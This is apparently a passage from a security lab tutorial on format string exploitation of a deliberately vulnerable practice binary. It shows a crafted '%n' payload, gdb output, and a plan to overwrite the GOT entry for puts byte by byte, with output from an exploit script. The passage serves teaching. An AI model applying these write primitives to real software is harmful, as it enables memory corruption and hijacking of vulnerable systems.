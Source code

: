 ```console
$ ./format "$(python -c 'import sys; sys.stdout.buffer.write("ABCD" + "A" * 1588 + "%99x" + "%126$08n")')"
Segmentation fault (core dumped)

$ gdb ./format -c core
(gdb) info registers $edx $eax
edx            0x261    1691
eax            0x44434241   1145258561
(gdb) quit
```

Here we managed to write `1691` (`4+1588+99`).
Note we should keep the number of bytes before the format string the same.
Which means that if we want to print with a padding of 100 (three digits) we should remove one `A`.
You can try this by yourself.

**How far can we go?**
Probably we can use any integer for specifying the number of bytes which are used for a format, but we don't need this;
moreover specifying a very large padding is not always feasible, think what happens when printing with `snprintf`.
`255` should be enough.

Remember, we want to write a value to a certain address.
So far we control the address, but the value is somewhat limited.
If we want to write 4 bytes at a time we can make use of the endianness of the machine.
**The idea** is to write at the address n and then at the address n+1 and so on.

Lets first display the address.
We are using the address `0x804c014`.
This address is the address of the got entry for the puts function.
Basically, we will override the got entry for the puts.

Check the `exploit.py` script from the task directory, read the commends and understand what it does.

```console
$ python exploit.py
[*] 'format'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './format': pid 29030
[*] Switching to interactive mode
[*] Process './format' stopped with exit code 0 (pid 29030)
\x14\x04\x15\x04\x17\x04\x18\x04 804c014  804c015  804c017  804c018 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
This is the most useless and insecure program!
```

The output starts with `\x14\x04\x15\x04\x17\x04\x18\x04 804c014  804c015  804c017  804c018` which is the 4 addresses we have written (raw, little endian) followed by the numerical prints done with `%x` of the same addresses.
